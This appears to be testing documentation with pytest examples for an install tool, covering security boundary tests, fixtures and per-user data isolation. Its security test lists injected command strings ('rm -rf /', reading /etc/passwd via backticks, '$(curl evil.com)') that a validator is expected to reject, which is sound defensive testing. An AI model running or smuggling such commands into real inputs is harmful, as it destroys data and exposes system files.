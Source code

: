 ## Security Testing

### Boundary Testing

```python
def test_security_boundaries():
    """Ensure all inputs are validated."""
    backend = TestExecutionBackend()
    
    malicious_inputs = [
        "install firefox; rm -rf /",
        "install `cat /etc/passwd`",
        "install $(curl evil.com)",
    ]
    
    for evil in malicious_inputs:
        # Should be caught before execution
        with pytest.raises(SecurityError):
            validate_input(evil)
```

## Best Practices

### 1. Use Fixtures Wisely

```python
@pytest.fixture
def test_environment():
    """Provide complete test environment."""
    db = TestDatabase()
    yield {
        'db': db,
        'nlp': TestNLPEngine(),
        'executor': TestExecutionBackend(),
        'learning': TestLearningEngine(db),
    }
    db.close()  # Cleanup
```

### 2. Test Data Isolation

```python
def test_user_isolation():
    """Each user's data must be isolated."""
    db = TestDatabase()
    
    # User 1 learns firefox preference
    db.record_preference('user1', 'browser', 'firefox')
    
    # User 2 learns chrome preference  
    db.record_preference('user2', 'browser', 'chrome')
    
    # Verify isolation
    assert db.get_preference('user1', 'browser')['value'] == 'firefox'
    assert db.get_preference('user2', 'browser')['value'] == 'chrome'
```
